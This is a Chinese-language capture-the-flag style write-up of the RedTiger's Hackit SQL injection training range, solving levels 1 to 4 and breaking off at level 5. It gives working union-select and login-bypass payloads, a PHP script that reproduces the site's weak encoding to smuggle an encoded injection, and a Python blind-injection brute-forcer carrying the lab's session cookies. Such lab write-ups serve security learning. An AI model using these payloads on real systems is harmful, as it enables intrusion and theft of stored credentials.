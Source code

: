```yaml
---
layout: default
title: RedTiger's-Hackit-Writeup
date: 2018-03-18
categories: SQL注入
tags: [SQL注入]
description: RedTiger's-Hackit是一个练习SQL注入的靶场
---
```


### 概述
	RedTiger's Hackit的网址是`https://redtiger.labs.overthewire.org`，有盲注，绕过等

### level1

这是level1的页面，我们得到提示：表名为`level1_users`。

![level1](http://101.132.99.228/post_img/level1.png)

点击Category:1，发现页面发生变化，这是我们的注入点。在URL后面添加

`and 1=1`和`and 1=2`

页面发生变化，则该注入点可以利用。输入`order by 1,2`判断该表有几列，输入到`order by 1,2,3,4,5`页面发生变化，那么我们判断除id外还有三列。


输入`union select 1,2,3,4 from level1_users`，发现3，4被显示出来

于是我们构造

`union select 1,2,username,password from level1_users`

就得到了登录的username和password，输入之后得到flag。

### level2
来到level2的页面，提示是loginbypass

![level2](http://101.132.99.228/post_img/level2.png)

使用`'or'1=1`进行绕过。
输入用户名，密码为`'or'1=1`，成功登录，得到flag。

### level3
提示线索是`Try to get an error`，通过错误信息得到进一步的信息。

![level3](http://101.132.99.228/post_img/level3.png)

点击Show userdetails:下面的两个超链接`TheCow`和`Admin`，发现可以进行注入。

点击Admin，查询条件是

`usr=MDQyMjExMDE0MTgyMTQw`

我们构造`usr[]=MDQyMjExMDE0MTgyMTQw`制造一个错误。
通过这个错误，我们得到报错信息

`Warning: preg_match() expects parameter 2 to be string, array given in /var/www/html/hackit/urlcrypt.inc on line 25`

猜测urlcrypt.inc文件中有我们要的信息。
打开urlcrypt.inc是一个PHP代码，作用是对字符串进行编码，这两个函数可能就是对url进行编码的。构造以下poc进行验证。

	<?php

		function encrypt($str)
		{
			$cryptedstr = "";
			srand(3284724);
			for ($i =0; $i < strlen($str); $i++)
			{
				$temp = ord(substr($str,$i,1)) ^ rand(0, 255);
				
				while(strlen($temp)<3)
				{
					$temp = "0".$temp;
				}
				$cryptedstr .= $temp. "";
			}
			return base64_encode($cryptedstr);
		}
	  
		$url='Admin';
		echo 'Admin encrypted:'.encrypt($url);
	?>

得到结果为
	
	Admin encrypted:MDQyMjExMDE0MTgyMTQw
	//Windows下的执行结果为：Admin encrypted:MjE5MTU5MDM5MDIxMDYx
	//Linux执行结果为：     Admin encrypted:MDQyMjExMDE0MTgyMTQw
	//造成这个差别的原因是，在srand()设置随机数种子相同时，调用随机数函数rand()的结果不同
	//考虑到大部分服务器系统都是Linux，所以在编写poc时最好在Linux系统上运行

与Admin的查询条件刚好相同，所以它的原理是先对查询语句进行编码，那我们构造注入语句

	' union select 1,password,2,3,4,5,6 from level3_users where username='Admin
	//经过encrypt函数编码为
	MDc2MTUxMDIyMTc3MTM5MjMwMTQ1MDI0MjA5MTAwMTc3MTUzMDc0MTg3MDk1MDg0MjQzMDE3MjUyMDI1MTI2MTU2MTc2MTMzMDAwMjQ2MTU2MjA4MTgyMDk2MTI5MjIwMDQ5MDUyMjMwMTk4MTk2MTg5MTEzMDQxMjQwMTQ0MDM2MTQwMTY5MTcyMDgzMjQ0MDg3MTQxMTE1MDY2MTUzMjE0MDk1MDM4MTgxMTY1MDQ3MTE4MDg2MTQwMDM0MDg1MTE4MTE4MDk5MjIyMjE4MDEwMTkwMjIwMDcxMDQwMjIw

于是顺利得到Admin的登录口令

### level4
level4是盲注,我们的目标是得到`level4_secret`这个表的keyword列的第一个值
![level4](http://101.132.99.228/post_img/level4.png)

首先来进行布尔盲注来判断keyword的长度'id=1 and (select count(*) from level4_secret where length(keyword)=4'。一直判断到`length(keyword)=21`，才返回`Query returned 1 rows`，证明keyword的长度是21。接下来编写poc来暴力破解出keyword的字段值。

	import re
	import string
	ans=''
	char=string.printable
	url="https://redtiger.labs.overthewire.org/level4.php?id=1%20and%20(select%20count(*)%20from%20level4_secret%20where%20substr(keyword,{0},1)='{1}')"
	header={"cookie":"level2login=4_is_not_random; level3login=feed_your_cat_before_your_cat_feeds_you; __cfduid=decf6542800964a4fa1356e86419c65341521017670; __utma=176859643.251792877.1521017673.1521017673.1521017673.1; __utmz=176859643.1521017673.1.1.utmcsr=wechall.net|utmccn=(referral)|utmcmd=referral|utmcct=/open_challs/by/chall_score/ASC/page-1; level4login=there_is_no_bug"
	        }
	for i in range(1,21):
	    for j in char:
	        uurl=url.format(i,j)
	        s=requests.post(url=uurl,headers=header)
	        if re.findall('Query returned 1 rows. ', s.text):
	            print(j)
	            ans=ans+j
	            break
	print(ans)

最终顺利得到keyword的值。

### level5
level5是Bypass绕过，提示的信息有：substring，substr，（，），mid都不能使用；密码是MD5加密的，关注登录错误。
![level5](http://101.132.99.228/post_img/level5.png)

